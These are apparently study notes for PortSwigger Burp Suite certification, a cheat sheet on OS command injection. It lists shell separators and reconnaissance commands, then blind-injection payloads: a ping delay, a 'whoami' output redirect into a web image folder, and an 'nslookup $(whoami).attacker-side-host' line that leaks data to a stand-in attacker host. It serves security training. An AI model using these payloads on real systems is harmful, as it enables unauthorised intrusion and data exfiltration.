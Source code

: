 ##### PortSwigger BurpSuite Certification Summary
# OS Command Injection
Execute arbitrary command line functions by altering input that is used as an argument.

#### Command Line Cheat Sheet

<table>
<tr><th>Command Separation </th><th>Useful Commands</th></tr>
<tr><td>

| **Universal**   |
|------------|
| &  |
| \| |
| >  |
| >> |
| &&  |
| \|\|  |

</td><td>

|**Description** | **Unix**   | **Windows**   |
|-|------------|---------------|
| current user | whoami     | whoami        |
| OS version | uname -a   | ver           |
| network interfaces | ifconfig   | ipconfig /all |
| active connections| netstat -an | netstat -an   |
| running processes | ps -ef     | tasklist      |
| command separation like ENTER | ; | |
| inline command | \`cmd\` | |
| inline command | $(cmd) | |


</td></tr> </table>

#### Blind OSCI
Often the output cannot be seen, so a time delay can used: `& ping -c 10 127.0.0.1 &`. However, this works only for sequential handling of commands.

Output can also be written to files and then accessed from the browser:
  * At the vulnerable place do `||whoami>/var/www/images/output.txt||`
  * Change the image fetching request to get the `output.txt` file instead of an image

In case statements are handled asynchronously, an out-of-band attack can be useful to check for a CI vulnerability:
  * `nslookup attacker-side-host`
  * `nslookup $(whoami).attacker-side-host`
